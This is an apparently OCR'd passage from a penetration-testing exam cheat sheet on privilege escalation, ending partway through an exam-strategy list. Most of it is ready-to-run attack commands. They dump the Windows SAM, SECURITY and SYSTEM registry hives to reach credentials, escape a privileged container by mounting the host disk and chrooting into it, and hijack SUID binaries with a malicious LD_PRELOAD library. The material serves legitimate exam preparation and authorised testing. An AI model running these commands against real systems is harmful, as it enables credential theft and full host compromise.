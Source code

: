 #### Advanced Token Techniques
```cmd
# Get all tokens
whoami /all

# Check for specific dangerous privileges
whoami /priv | findstr /i "SeDebugPrivilege SeTakeOwnershipPrivilege SeBackupPrivilege SeRestorePrivilege"

# Abuse SeBackupPrivilege to read sensitive files
reg save HKLM\SAM C:\temp\sam.hive
reg save HKLM\SECURITY C:\temp\security.hive
reg save HKLM\SYSTEM C:\temp\system.hive
```

### Linux Advanced

#### Container Escape Techniques
```bash
# Check if in container
cat /proc/1/cgroup | grep -i docker
ls -la /.dockerenv

# Check capabilities in container
capsh --print

# Mount host filesystem (if privileged container)
fdisk -l
mkdir /mnt/host
mount /dev/sda1 /mnt/host
chroot /mnt/host /bin/bash
```

#### Advanced SUID Exploitation
```bash
# Custom SUID binary analysis
objdump -T /path/to/suid/binary
strace /path/to/suid/binary 2>&1 | grep -E "open|read|write"

# Library hijacking
ldd /path/to/suid/binary
# Create malicious library
gcc -shared -fPIC -o /tmp/libc.so.6 malicious.c
LD_PRELOAD=/tmp/libc.so.6 /path/to/suid/binary
```

## Exam Strategy

### Windows PrivEsc Methodology (30 minutes max)
1. **Quick Wins** (5 minutes):
   - `whoami /priv` for token impersonation
   - `sudo -l` equivalent checks
   - Quick service enumeration
